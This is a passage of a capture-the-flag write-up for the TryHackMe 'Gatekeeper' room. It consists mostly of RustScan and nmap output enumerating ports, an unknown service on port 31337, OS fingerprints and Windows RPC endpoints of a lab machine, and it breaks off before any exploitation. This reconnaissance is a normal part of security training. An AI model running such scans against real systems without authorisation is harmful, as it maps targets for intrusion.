








# TryHackMe(THM) - Gatekeeper - WriteUp

> Austin Lai | August 24th, 2021

---

<!-- Description -->

[Room = TryHackMe(THM) - Gatekeeper](https://tryhackme.com/room/gatekeeper)

Difficulty: **Medium**

The room is completed on Aug 22nd, 2021

```text
Can you get past the gate and through the fire?
```

<!-- /Description -->

## Table of Contents

<!-- TOC -->

- [TryHackMe(THM) - Gatekeeper - WriteUp](#tryhackmethm---gatekeeper---writeup)
    - [Table of Contents](#table-of-contents)
    - [Task 1](#task-1)
    - [Task 2](#task-2)
        - [Question 1](#question-1)
        - [Question 2](#question-2)
    - [Let's Begin Here !!!](#lets-begin-here-)

<!-- /TOC -->

---

## Task 1

Deploy the machine.

## Task 2

### Question 1

_Locate and find the User Flag._

### Question 2

_Locate and find the Root Flag_

---

## Let's Begin Here !!!

Let's fire up basic enumeration.

Rustscan result:

```text
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at '/root/.rustscan.toml'
[~] Automatically increasing ulimit value to 5000.
Open 10.10.81.67:139
Open 10.10.81.67:135
Open 10.10.81.67:31337
Open 10.10.81.67:49152
Open 10.10.81.67:49153
Open 10.10.81.67:49154
Open 10.10.81.67:49155
Open 10.10.81.67:49161
[~] Starting Script(s)
[>] Script to be run Some('nmap -vvv -p {{port}} {{ip}}')

[~] Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-22 07:32 +08
NSE: Loaded 487 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 07:32
NSE: [broadcast-ataoe-discover] No interface supplied, use -e
NSE: [url-snarf] no network interface was supplied, aborting ...
NSE: [targets-ipv6-wordlist] Need to be executed for IPv6.
NSE: [targets-xml] Need to supply a file name with the targets-xml.iX argument
NSE: [targets-ipv6-map4to6] This script is IPv6 only.
NSE: [shodan-api] Error: Please specify your ShodanAPI key with the shodan-api.apikey argument
NSE: [mtrace] A source IP must be provided through fromip argument.
NSE: [broadcast-sonicwall-discover] No network interface was supplied, aborting.
NSE Timing: About 97.45% done; ETC: 07:33 (0:00:01 remaining)
Completed NSE at 07:33, 40.02s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 07:33
Completed NSE at 07:33, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 07:33
Completed NSE at 07:33, 0.00s elapsed
Pre-scan script results:
| broadcast-avahi-dos:
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
| broadcast-dns-service-discovery:
|   224.0.0.251
|     47989/tcp nvstream_dbd
|_      Address=172.18.224.1 fe80::15fe:15b9:3f32:db99
| broadcast-igmp-discovery:
|   172.18.224.1
|     Interface: eth0
|     Version: 2
|     Group: 239.255.255.250
|     Description: Organization-Local Scope (rfc2365)
|_  Use the newtargets script-arg to add the results as targets
| broadcast-listener:
|   ether
|   udp
|       SSDP
|         ip            uri
|         172.18.224.1   urn:schemas-upnp-org:device:InternetGatewayDevice:1
|_        172.18.224.1   urn:dial-multiscreen-org:service:dial:1
| broadcast-netbios-master-browser:
|_ip  server  domain
| broadcast-wsdd-discover:
|   Devices
|     239.255.255.250
|         Message id: 7bf3161d-c6ad-4e47-a60c-0aca85d99853
|         Address: http://172.18.224.1:5357/56131d4d-4768-4751-af72-a8b5e884e4d0/
|_        Type: Device pub:Computer
|_eap-info: please specify an interface with -e
|_hostmap-robtex: *TEMPORARILY DISABLED* due to changes in Robtex's API. See https://www.robtex.com/api/
|_http-robtex-shared-ns: *TEMPORARILY DISABLED* due to changes in Robtex's API. See https://www.robtex.com/api/
| ipv6-multicast-mld-list:
|   fe80::15fe:15b9:3f32:db99:
|     device: eth0
|     mac: 00:15:5d:59:9b:0d
|     multicast_ips:
|       ff02::1:ff32:db99         (NDP Solicited-node)
|       ff02::1:ffba:d0e1         (Solicited-Node Address)
|       ff02::c                   (SSDP)
|       ff02::fb                  (mDNSv6)
|_      ff02::1:ffba:d0e1         (Solicited-Node Address)
| targets-asn:
|_  targets-asn.asn is a mandatory parameter
| targets-ipv6-multicast-invalid-dst:
|   IP: fe80::15fe:15b9:3f32:db99  MAC: 00:15:5d:59:9b:0d  IFACE: eth0
|_  Use --script-args=newtargets to add the results as targets
| targets-ipv6-multicast-mld:
|   IP: fe80::15fe:15b9:3f32:db99  MAC: 00:15:5d:59:9b:0d  IFACE: eth0
|
|_  Use --script-args=newtargets to add the results as targets
| targets-ipv6-multicast-slaac:
|   IP: fe80::15fe:15b9:3f32:db99  MAC: 00:15:5d:59:9b:0d  IFACE: eth0
|   IP: fe80::1894:1231:5fba:d0e1  MAC: 00:15:5d:59:9b:0d  IFACE: eth0
|_  Use --script-args=newtargets to add the results as targets
Initiating Ping Scan at 07:33
Scanning 10.10.81.67 [4 ports]
Completed Ping Scan at 07:33, 0.37s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 07:33
Completed Parallel DNS resolution of 1 host. at 07:33, 1.06s elapsed
DNS resolution of 1 IPs took 1.06s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 07:33
Scanning 10.10.81.67 [8 ports]
Discovered open port 139/tcp on 10.10.81.67
Discovered open port 49154/tcp on 10.10.81.67
Discovered open port 31337/tcp on 10.10.81.67
Discovered open port 135/tcp on 10.10.81.67
Discovered open port 49153/tcp on 10.10.81.67
Discovered open port 49155/tcp on 10.10.81.67
Discovered open port 49152/tcp on 10.10.81.67
Discovered open port 49161/tcp on 10.10.81.67
Completed SYN Stealth Scan at 07:33, 0.36s elapsed (8 total ports)
Initiating Service scan at 07:33
Scanning 8 services on 10.10.81.67
Service scan Timing: About 37.50% done; ETC: 07:35 (0:01:40 remaining)
Completed Service scan at 07:36, 167.05s elapsed (8 services on 1 host)
Initiating OS detection (try #1) against 10.10.81.67
Retrying OS detection (try #2) against 10.10.81.67
Initiating Traceroute at 07:36
Completed Traceroute at 07:36, 3.02s elapsed
Initiating Parallel DNS resolution of 3 hosts. at 07:36
Completed Parallel DNS resolution of 3 hosts. at 07:36, 2.08s elapsed
DNS resolution of 3 IPs took 2.08s. Mode: Async [#: 1, OK: 1, NX: 2, DR: 0, SF: 0, TR: 3, CN: 0]
NSE: Script scanning 10.10.81.67.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 07:36
NSE Timing: About 99.89% done; ETC: 07:36 (0:00:00 remaining)
NSE Timing: About 99.93% done; ETC: 07:37 (0:00:00 remaining)
NSE Timing: About 99.93% done; ETC: 07:37 (0:00:00 remaining)
Completed NSE at 07:38, 108.25s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 07:38
Completed NSE at 07:38, 13.37s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 07:38
Completed NSE at 07:38, 0.01s elapsed
Nmap scan report for 10.10.81.67
Host is up, received echo-reply ttl 124 (0.36s latency).
Scanned at 2021-08-22 07:33:17 +08 for 300s

PORT      STATE SERVICE     REASON          VERSION
135/tcp   open  msrpc       syn-ack ttl 124 Microsoft Windows RPC
139/tcp   open  netbios-ssn syn-ack ttl 124 Windows 7 Professional 7601 Service Pack 1 netbios-ssn
31337/tcp open  Elite?      syn-ack ttl 124
| fingerprint-strings:
|   FourOhFourRequest:
|     Hello GET /nice%20ports%2C/Tri%6Eity.txt%2ebak HTTP/1.0
|     Hello
|   GenericLines:
|     Hello
|     Hello
|   GetRequest:
|     Hello GET / HTTP/1.0
|     Hello
|   HTTPOptions:
|     Hello OPTIONS / HTTP/1.0
|     Hello
|   Help:
|     Hello HELP
|   Kerberos:
|     Hello !!!
|   LDAPSearchReq:
|     Hello 0
|     Hello
|   LPDString:
|     Hello
|     default!!!
|   RTSPRequest:
|     Hello OPTIONS / RTSP/1.0
|     Hello
|   SIPOptions:
|     Hello OPTIONS sip:nm SIP/2.0
|     Hello Via: SIP/2.0/TCP nm;branch=foo
|     Hello From: <sip:nm@nm>;tag=root
|     Hello To: <sip:nm2@nm2>
|     Hello Call-ID: 50000
|     Hello CSeq: 42 OPTIONS
|     Hello Max-Forwards: 70
|     Hello Content-Length: 0
|     Hello Contact: <sip:nm@nm>
|     Hello Accept: application/sdp
|     Hello
|   SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|_    Hello
49152/tcp open  msrpc       syn-ack ttl 124 Microsoft Windows RPC
49153/tcp open  msrpc       syn-ack ttl 124 Microsoft Windows RPC
49154/tcp open  msrpc       syn-ack ttl 124 Microsoft Windows RPC
49155/tcp open  msrpc       syn-ack ttl 124 Microsoft Windows RPC
49161/tcp open  msrpc       syn-ack ttl 124 Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port31337-TCP:V=7.91%I=7%D=8/22%Time=61218D4B%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,24,'Hello\x20GET\x20/\x20HTTP/1\.0\r!!!\nHello\x20\r!!!\n')%r
SF:(SIPOptions,142,'Hello\x20OPTIONS\x20sip:nm\x20SIP/2\.0\r!!!\nHello\x20
SF:Via:\x20SIP/2\.0/TCP\x20nm;branch=foo\r!!!\nHello\x20From:\x20<sip:nm@n
SF:m>;tag=root\r!!!\nHello\x20To:\x20<sip:nm2@nm2>\r!!!\nHello\x20Call-ID:
SF:\x2050000\r!!!\nHello\x20CSeq:\x2042\x20OPTIONS\r!!!\nHello\x20Max-Forw
SF:ards:\x2070\r!!!\nHello\x20Content-Length:\x200\r!!!\nHello\x20Contact:
SF:\x20<sip:nm@nm>\r!!!\nHello\x20Accept:\x20application/sdp\r!!!\nHello\x
SF:20\r!!!\n')%r(GenericLines,16,'Hello\x20\r!!!\nHello\x20\r!!!\n')%r(HTT
SF:POptions,28,'Hello\x20OPTIONS\x20/\x20HTTP/1\.0\r!!!\nHello\x20\r!!!\n'
SF:)%r(RTSPRequest,28,'Hello\x20OPTIONS\x20/\x20RTSP/1\.0\r!!!\nHello\x20\
SF:r!!!\n')%r(Help,F,'Hello\x20HELP\r!!!\n')%r(SSLSessionReq,C,'Hello\x20\
SF:x16\x03!!!\n')%r(TerminalServerCookie,B,'Hello\x20\x03!!!\n')%r(TLSSess
SF:ionReq,C,'Hello\x20\x16\x03!!!\n')%r(Kerberos,A,'Hello\x20!!!\n')%r(Fou
SF:rOhFourRequest,47,'Hello\x20GET\x20/nice%20ports%2C/Tri%6Eity\.txt%2eba
SF:k\x20HTTP/1\.0\r!!!\nHello\x20\r!!!\n')%r(LPDString,12,'Hello\x20\x01de
SF:fault!!!\n')%r(LDAPSearchReq,17,'Hello\x200\x84!!!\nHello\x20\x01!!!\n'
SF:);
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (94%), Microsoft Windows Home Server 2011 (Windows Server 2008 R2) (93%), Microsoft Windows Server 2008 SP1 (93%), Microsoft Windows Server 2008 SP2 (93%), Microsoft Windows 7 (93%), Microsoft Windows 7 SP0 - SP1 or Windows Server 2008 (93%), Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1 (93%), Microsoft Windows 7 SP1 (93%), Microsoft Windows 7 Ultimate (93%), Microsoft Windows 7 Ultimate SP1 or Windows 8.1 Update 1 (93%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=8/22%OT=135%CT=%CU=39095%PV=Y%DS=5%DC=T%G=N%TM=61218E69%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=10B%TI=I%CI=I%II=I%SS=S%TS=7)
OPS(O1=M508NW8ST11%O2=M508NW8ST11%O3=M508NW8NNT11%O4=M508NW8ST11%O5=M508NW8ST11%O6=M508ST11)
WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)
ECN(R=Y%DF=Y%T=80%W=2000%O=M508NW8NNS%CC=N%Q=)
T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)
T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=9BE7%RUD=G)
IE(R=Y%DFI=N%T=80%CD=Z)

Uptime guess: 0.006 days (since Sun Aug 22 07:30:21 2021)
Network Distance: 5 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h20m01s, deviation: 2h18m37s, median: 0s
| dns-blacklist:
|   SPAM
|_    l2.apews.org - FAIL
|_dns-brute: Can't guess domain of '10.10.81.67'; use dns-brute.domain script argument.
|_fcrdns: FAIL (No PTR record)
|_ipidseq: Unknown
| msrpc-enum:
|
|     tcp_port: 49152
|     uuid: d95afe70-a6d5-4259-822e-2c84da1ddb0d
|     ip_addr: 0.0.0.0
|
|     exe: ssdpsrv ssdpsrv interface (SSDP service)
|     uuid: 4b112204-0e19-11d3-b42b-0000f81feb9f
|     ncalrpc: LRPC-59cacd1f23a933770b
|
|     annotation: Remote Fw APIs
|     tcp_port: 49166
|     uuid: 6b5bdd1e-528c-422c-af8c-a4079be4fe48
|     ip_addr: 0.0.0.0
|
|     annotation: IPSec Policy agent endpoint
|     tcp_port: 49166
|     uuid: 12345678-1234-abcd-ef00-0123456789ab
|     ip_addr: 0.0.0.0
|
|     annotation: IPSec Policy agent endpoint
|     uuid: 12345678-1234-abcd-ef00-0123456789ab
|     ncalrpc: LRPC-96d81e0cba73dbad24
|
|     tcp_port: 49161
|     uuid: 367abb81-9844-35f1-ad32-98f038001003
|     ip_addr: 0.0.0.0
|
|     annotation: PcaSvc
|     uuid: 0767a036-0d22-48aa-ba69-b619480f38cb
|     ncalrpc: OLE2726E8B36C8C42F486B1B32F60E9
|
|     annotation: PcaSvc
|     uuid: 0767a036-0d22-48aa-ba69-b619480f38cb
|     ncalrpc: LRPC-2bad4019aed32897ed
|
|     uuid: b58aa02e-2884-4e97-8176-4ee06d794184
|     ncalrpc: OLE2726E8B36C8C42F486B1B32F60E9
|
|     uuid: b58aa02e-2884-4e97-8176-4ee06d794184
|     ncalrpc: LRPC-2bad4019aed32897ed
|
|     ncacn_np: \pipe\trkwks
|     uuid: b58aa02e-2884-4e97-8176-4ee06d794184
|     netbios: \\GATEKEEPER
|
|     uuid: b58aa02e-2884-4e97-8176-4ee06d794184
|     ncalrpc: trkwks
|
|     annotation: Base Firewall Engine API
|     uuid: dd490425-5325-4565-b774-7e27d6c09c24
|     ncalrpc: LRPC-ab78d471284f4b4a13
|
|     annotation: Fw APIs
|     uuid: 7f9d11bf-7fb9-436b-a812-b2d50c5d4c03
|     ncalrpc: LRPC-ab78d471284f4b4a13
|
|     annotation: Fw APIs
|     uuid: 2fb92682-6599-42dc-ae13-bd2ca89bd11c
|     ncalrpc: LRPC-ab78d471284f4b4a13
|
|     annotation: Spooler function endpoint
|     uuid: 0b6edbfa-4a24-4fc6-8a23-942b1eca65d1
|     ncalrpc: spoolss
|
|     annotation: Spooler base remote object endpoint
|     uuid: ae33069b-a2a8-46ee-a235-ddfd339be281
|     ncalrpc: spoolss
|
|     annotation: Spooler function endpoint
|     uuid: 4a452661-8290-4b36-8fbe-7f4093a94978
|     ncalrpc: spoolss
|
|     annotation: NSI server endpoint
|     uuid: 7ea70bcf-48af-4f6a-8968-6a440754d5fa
|     ncalrpc: OLE3E96193D01DD44D3BA9ECBF26BAD
|
|     annotation: NSI server endpoint
|     uuid: 7ea70bcf-48af-4f6a-8968-6a440754d5fa
|     ncalrpc: LRPC-8deee077897a427a00
|
|     annotation: WinHttp Auto-Proxy Service
|     uuid: 3473dd4d-2e88-4006-9cba-22570909dd10
|     ncalrpc: OLE3E96193D01DD44D3BA9ECBF26BAD
|
|     annotation: WinHttp Auto-Proxy Service
|     uuid: 3473dd4d-2e88-4006-9cba-22570909dd10
|     ncalrpc: LRPC-8deee077897a427a00
|
|     exe: lsass.exe samr interface
|     uuid: 12345778-1234-abcd-ef00-0123456789ac
|     netbios: \\GATEKEEPER
|     ncacn_np: \pipe\lsass
|
|     exe: lsass.exe samr interface
|     uuid: 12345778-1234-abcd-ef00-0123456789ac
|     ncalrpc: LRPC-3662b7ce5bf64c887e
|
|     exe: lsass.exe samr interface
|     uuid: 12345778-1234-abcd-ef00-0123456789ac
|     ncalrpc: audit
|
|     exe: lsass.exe samr interface
|     uuid: 12345778-1234-abcd-ef00-0123456789ac
|     ncalrpc: securityevent
|
|     exe: lsass.exe samr interface
|     uuid: 12345778-1234-abcd-ef00-0123456789ac
|     ncalrpc: LSARPC_ENDPOINT
|
|     exe: lsass.exe samr interface
|     uuid: 12345778-1234-abcd-ef00-0123456789ac
|     ncalrpc: lsapolicylookup
|
|     exe: lsass.exe samr interface
|     uuid: 12345778-1234-abcd-ef00-0123456789ac
|     ncalrpc: lsasspirpc
|
|     exe: lsass.exe samr interface
|     uuid: 12345778-1234-abcd-ef00-0123456789ac
|     ncalrpc: protected_storage
|
|     exe: lsass.exe samr interface
|     uuid: 12345778-1234-abcd-ef00-0123456789ac
|     netbios: \\GATEKEEPER
|     ncacn_np: \PIPE\protected_storage
|
|     exe: lsass.exe samr interface
|     uuid: 12345778-1234-abcd-ef00-0123456789ac
|     ncalrpc: samss lpc
|
|     exe: lsass.exe samr interface
|     tcp_port: 49154
|     uuid: 12345778-1234-abcd-ef00-0123456789ac
|     ip_addr: 0.0.0.0
|
|     annotation: Impl friendly name
|     uuid: c9ac6db5-82b7-4e55-ae8a-e464ed7b4277
|     ncalrpc: LRPC-0170939d3d79db5b5d
|
|     uuid: 2eb08e3e-639f-4fba-97b1-14f878961076
|     ncalrpc: LRPC-0170939d3d79db5b5d
|
|     annotation: Impl friendly name
|     uuid: c9ac6db5-82b7-4e55-ae8a-e464ed7b4277
|     ncalrpc: LRPC-0170939d3d79db5b5d
|
|     annotation: Impl friendly name
|     uuid: c9ac6db5-82b7-4e55-ae8a-e464ed7b4277
|     ncalrpc: IUserProfile2
|
|     annotation: Impl friendly name
|     uuid: c9ac6db5-82b7-4e55-ae8a-e464ed7b4277
|     ncalrpc: LRPC-0170939d3d79db5b5d
|
|     annotation: Impl friendly name
|     uuid: c9ac6db5-82b7-4e55-ae8a-e464ed7b4277
|     ncalrpc: IUserProfile2
|
|     annotation: Impl friendly name
|     uuid: c9ac6db5-82b7-4e55-ae8a-e464ed7b4277
|     ncalrpc: OLEDB1AC867EE6C4677A8C7E93DBA31
|
|     annotation: Impl friendly name
|     uuid: c9ac6db5-82b7-4e55-ae8a-e464ed7b4277
|     ncalrpc: senssvc
|
|     uuid: 0a74ef1c-41a4-4e06-83ae-dc74fb1cdd53
|     ncalrpc: LRPC-0170939d3d79db5b5d
|
|     uuid: 0a74ef1c-41a4-4e06-83ae-dc74fb1cdd53
|     ncalrpc: IUserProfile2
|
|     uuid: 0a74ef1c-41a4-4e06-83ae-dc74fb1cdd53
|     ncalrpc: OLEDB1AC867EE6C4677A8C7E93DBA31
|
|     uuid: 0a74ef1c-41a4-4e06-83ae-dc74fb1cdd53
|     ncalrpc: senssvc
|
|     exe: mstask.exe atsvc interface (Scheduler service)
|     uuid: 1ff70682-0a51-30e8-076d-740be8cee98b
|     ncalrpc: LRPC-0170939d3d79db5b5d
|
|     exe: mstask.exe atsvc interface (Scheduler service)
|     uuid: 1ff70682-0a51-30e8-076d-740be8cee98b
|     ncalrpc: IUserProfile2
|
|     exe: mstask.exe atsvc interface (Scheduler service)
|     uuid: 1ff70682-0a51-30e8-076d-740be8cee98b
|     ncalrpc: OLEDB1AC867EE6C4677A8C7E93DBA31
|
|     exe: mstask.exe atsvc interface (Scheduler service)
|     uuid: 1ff70682-0a51-30e8-076d-740be8cee98b
|     ncalrpc: senssvc
|
|     exe: mstask.exe atsvc interface (Scheduler service)
|     uuid: 1ff70682-0a51-30e8-076d-740be8cee98b
|     netbios: \\GATEKEEPER
|     ncacn_np: \PIPE\atsvc
|
|     uuid: 378e52b0-c0a9-11cf-822d-00aa0051e40f
|     ncalrpc: LRPC-0170939d3d79db5b5d
|
|     uuid: 378e52b0-c0a9-11cf-822d-00aa0051e40f
|     ncalrpc: IUserProfile2
|
|     uuid: 378e52b0-c0a9-11cf-822d-00aa0051e40f
|     ncalrpc: OLEDB1AC867EE6C4677A8C7E93DBA31
|
|     uuid: 378e52b0-c0a9-11cf-822d-00aa0051e40f
|     ncalrpc: senssvc
|
|     ncacn_np: \PIPE\atsvc
|     uuid: 378e52b0-c0a9-11cf-822d-00aa0051e40f
|     netbios: \\GATEKEEPER
|
|     uuid: 86d35949-83c9-4044-b424-db363231fd0c
|     ncalrpc: LRPC-0170939d3d79db5b5d
|
|     uuid: 86d35949-83c9-4044-b424-db363231fd0c
|     ncalrpc: IUserProfile2
|
|     uuid: 86d35949-83c9-4044-b424-db363231fd0c
|     ncalrpc: OLEDB1AC867EE6C4677A8C7E93DBA31
|
|     uuid: 86d35949-83c9-4044-b424-db363231fd0c
|     ncalrpc: senssvc
|
|     ncacn_np: \PIPE\atsvc
|     uuid: 86d35949-83c9-4044-b424-db363231fd0c
|     netbios: \\GATEKEEPER
|
|     tcp_port: 49155
|     uuid: 86d35949-83c9-4044-b424-db363231fd0c
|     ip_addr: 0.0.0.0
|
|     annotation: IKE/Authip API
|     uuid: a398e520-d59a-4bdd-aa7a-3c1e0303a511
|     ncalrpc: LRPC-0170939d3d79db5b5d
|
|     annotation: IKE/Authip API
|     uuid: a398e520-d59a-4bdd-aa7a-3c1e0303a511
|     ncalrpc: IUserProfile2
|
|     annotation: IKE/Authip API
|     uuid: a398e520-d59a-4bdd-aa7a-3c1e0303a511
|     ncalrpc: OLEDB1AC867EE6C4677A8C7E93DBA31
|
|     annotation: IKE/Authip API
